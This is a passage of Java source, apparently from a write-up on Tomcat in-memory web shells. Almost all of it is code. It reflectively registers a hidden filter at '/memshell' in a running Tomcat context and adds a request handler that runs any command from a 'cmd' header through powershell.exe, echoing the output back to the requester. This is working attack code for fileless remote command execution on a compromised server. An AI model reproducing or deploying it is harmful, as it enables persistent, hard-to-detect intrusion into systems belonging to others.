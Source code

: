 ```java
			filterMap.addURLPattern("/memshell");
			filterMap.setFilterName(filterName);
			filterMap.setDispatcher(DispatcherType.REQUEST.name());
			standardContext.addFilterMapBefore(filterMap);

			Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, filterDefClass);
			constructor.setAccessible(true);
			ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);
			map.put(filterName, filterConfig);
		}
	} catch (Exception e) {
		throw new RuntimeException(e);
	}
}
```

Enrich our request handler:
```java
public static boolean handleRequest(org.apache.coyote.Request request, Thread thread) {  
    try {  
        org.apache.coyote.Response response = request.getResponse();  
        java.lang.String cmd = request.getHeader("cmd");  
        if (cmd == null || cmd.length() <= 0) {  
            return false;  
        }  
        if (cmd.equals("inject")) {  
            if (standardContext == null) {  
                cmd = "wrong";  
            }  
            injectMemshell(standardContext, "TomcatMemshellFilter");  
            cmd = "success";  
        }  
        byte[] res = null;  
        if (cmd.equals("wrong")) {  
            res = "StandardContext not found. ".getBytes();  
        } else if (cmd.equals("success")) {  
            res = "Request /memshell?cmd=whoami ".getBytes();  
        } else {  
            res = (new Scanner((new ProcessBuilder(new String[]{"powershell.exe", "/C", cmd})).start().getInputStream())).useDelimiter("\\A").next().getBytes();  
        }  
        Class byteChunkCls = Class.forName("org.apache.tomcat.util.buf.ByteChunk");  
        Object byteChunk = byteChunkCls.newInstance();  
        byteChunk.getClass().getDeclaredMethod("setBytes", byte[].class, int.class, int.class).invoke(byteChunk, res, new Integer(0), new Integer(res.length));  
        response.setStatus(200);  
        response.addHeader("TomcatEcho", new String(res, StandardCharsets.UTF_8));  
        response.getClass().getDeclaredMethod("doWrite", byteChunkCls).invoke(response, byteChunk);  
    } catch (Exception e) {  
        throw new RuntimeException(e);  
    }  
    return true;  
}
```
